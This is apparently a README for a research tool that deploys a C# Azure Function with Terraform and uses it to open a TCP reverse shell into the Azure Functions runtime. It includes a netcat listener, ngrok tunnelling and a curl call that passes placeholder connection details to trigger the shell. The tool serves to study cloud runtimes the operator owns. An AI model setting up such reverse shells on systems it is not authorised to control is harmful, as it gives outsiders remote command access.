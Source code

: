 # Puma Prey Cougar

Cougar is a C# function that can be deployed to the Azure to establish a TCP reverse shell for the purposes of introspecting the Azure Functions container runtime.

## Installing Prerequisites

* [.NET 6 SDK](https://dotnet.microsoft.com/download)
* [Azure CLI](https://github.com/Azure/azure-cli)
* [Terraform](https://learn.hashicorp.com/terraform/getting-started/install.html)

## Deploying The Function

```bash
az login
export TF_VAR_unique_identifier=$(uuidgen | cut -b 25-34 | awk '{print tolower($0)}')
export TF_VAR_resource_group=serverless-prey-cougar-${TF_VAR_unique_identifier}
cd ./cougar/src/terraform/
terraform init
terraform apply --auto-approve
```

## Function Testing

Retrieve the Function Id, Host, and API key via the CLI.

```bash
export COUGAR_FUNCTION_ID=$(terraform output --json | jq -r '.cougar_function_id.value')
export COUGAR_FUNCTION_HOST=$(terraform output --json | jq -r '.cougar_function_host.value')
export COUGAR_API_KEY=$(az rest --method post --uri "$COUGAR_FUNCTION_ID/host/default/listKeys?api-version=2018-11-01" | jq -r .functionKeys.default)
export COUGAR_FUNCTION_URL="https://$COUGAR_FUNCTION_HOST/api/Cougar"
curl "$COUGAR_FUNCTION_URL?code=$COUGAR_API_KEY"
```

The result should show an error message indicating required C2 parameters are missing:

```json
{"message":"Must provide the host and port for the target TCP server as query parameters."}
```

If you have [Netcat](http://netcat.sourceforge.net/) and [ngrok](https://ngrok.com/) installed, you can use this script:

```bash
../../../script/prey.sh cougar --url $COUGAR_FUNCTION_URL --api-key $COUGAR_API_KEY
```

See [here](../script/USAGE.md) for more details on how to use this script.

Alternatively, you can do this manually by setting up a Netcat listener like so:

```bash
nc -l 4444
```

Then, to make your listener accessible from the public internet, consider using a service like ngrok:

```bash
ngrok tcp 4444
```

Finally, invoke your function, supplying your connection details and API key:

```bash
curl "$COUGAR_FUNCTION_URL?code=$COUGAR_API_KEY&host=NGROK_PORT_IP&port=NGROK_PORT_NUMBER"
```

Your listener will now act as a reverse shell for the duration of the function invocation.

## Teardown

```bash
terraform destroy
```

## Learning More

Read [documentation](docs) on what you can accomplish once you connect to the runtime via Cougar.

